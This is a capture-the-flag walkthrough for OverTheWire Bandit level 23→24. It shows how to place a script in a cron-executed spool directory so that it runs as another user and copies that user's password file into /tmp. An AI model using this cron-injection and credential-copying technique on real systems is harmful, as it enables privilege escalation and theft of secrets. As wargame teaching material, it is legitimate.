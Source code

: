 # Level 23 → 24 🔐  

---

## 🎯 Goal  

A cron job runs automatically as user `bandit24`. The script deletes itself after running, so you’ll need to create your own script in the right place to make it reveal the password for the next level.  

This is your first real shell script challenge, but don't worry, it's not nearly as messy as you think it might be.

---

## 🛠 Commands Used  

- `cat` – View file contents  
- `touch` – Create text files (in this case a script file)
- `nano` – Edit files 
- `chmod` – Set permissions so scripts can be executed  
- `ls -hl` – Verify files exist and check permissions  

---

## 🚀 How to Solve  

1. Look at the cron configuration for `bandit24` in `/etc/cron.d`:  
   ```bash
   cat /etc/cron.d/cronjob_bandit24
   ```
   You’ll see it runs a script every minute as `bandit24`.  

2. Check what that script is doing:  
   ```bash
   cat /usr/bin/cronjob_bandit24.sh
   ```  
   You’ll notice it executes any file placed in `/var/spool/bandit24/foo`.
    
   Then, it deletes the script after running it.  

3. This means you can drop your own script into `/var/spool/bandit24/foo`, and it will run as `bandit24`. Since `bandit24` has access to `/etc/bandit_pass/bandit24`, you can make your script copy that password into a world-readable place (like `/tmp`).  

4. Write your script:
   ```bash  
   #!/bin/bash
   
   cat /etc/bandit_pass/bandit24 > /tmp/mysecret
   ```  
   Save this as `/var/spool/bandit24/foo/myscript.sh`.  

5. Make it executable **immediately after saving** (the script might be deleted before you chmod it due to the *other* script that will run yours):  
   ```bash
   chmod 755 /var/spool/bandit24/foo/myscript.sh
   ```

6. Wait a minute for the cron job to run. Then check the file you wrote to:  
   ```bash
   cat /tmp/mysecret
   ```
   That will contain the password for `bandit24`. 🎉  

---

## ⚡️ Important Note  

Because the cron job deletes your script after running it, you have to be fast:  
- Save the file  
- Run `chmod` immediately  
- Otherwise cron may delete it before it becomes executable  

---

## 🔄 Alternative Method  

Instead of writing the file and then rushing to chmod it, you can create it with the right permissions from the start:  

```bash
echo '#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/mysecret' > /var/spool/bandit24/foo/myscript.sh
chmod 755 /var/spool/bandit24/foo/myscript.sh
```
Here’s what’s happening step by step:

- `echo` → writes the script content into a file
- `#!/bin/bash` → ensures the script runs with bash
- `cat /etc/bandit_pass/bandit24 > /tmp/mysecret` → copies the password into /tmp/mysecret when executed
- `> /var/spool/bandit24/foo/myscript.sh` → sends the echo output into the script file
- `chmod 755` → ensures cron (and others) can read + execute the script

---

## 💡 Bonus Tips  

- `755` (or `-rwxr-xr-x`) is the right permission because the system needs read + execute access to your script as it is a text file, not binary.  
- If you set it to `711` or `-rwx--x--x`, only you could read it, so cron wouldn’t work.  
- Always think in terms of: "who needs to read this, who needs to run this?"  

---

## 🧠 Why This Level Matters  

This is the first time you’re writing your own script to escalate access.  

It teaches you:  

- How cron jobs can run your code as another user  
- Why permissions (chmod) matter in automation  
- How to design a script to output sensitive data somewhere you can reach  
- That automation doesn’t care about your mistakes, it will just fail silently if permissions are wrong  

This level is like a mini “exploit sandbox”: you get to inject code into a trusted process. In the real world, that’s a massive deal. 🚀  
